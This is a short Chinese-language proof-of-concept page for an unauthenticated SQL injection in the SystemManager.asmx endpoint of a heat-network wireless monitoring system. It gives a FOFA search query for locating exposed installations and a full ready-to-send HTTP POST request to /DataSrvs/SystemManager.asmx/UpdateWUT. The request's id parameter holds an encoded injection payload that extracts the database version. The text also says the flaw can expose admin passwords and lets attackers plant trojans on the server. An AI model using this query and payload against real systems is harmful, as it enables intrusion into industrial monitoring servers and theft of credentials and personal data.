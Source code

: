 ## 热网无线监测系统SystemManager.asmx存在SQL注入漏洞

热网无线监测系统 SystemManager.asmx 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```
body="Downloads/HDPrintInstall.rar" || body="skins/login/images/btn_login.jpg"
```

## poc

```
POST /DataSrvs/SystemManager.asmx/UpdateWUT HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
 
id=%28SELECT+CHAR%28113%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%2BCHAR%28113%29%2B%28CASE+WHEN+%281675%3D1675%29+THEN+@@version+ELSE+CHAR%2848%29+END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28118%29%2BCHAR%28118%29%2BCHAR%28113%29%29&name=&desc=
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031708136.png)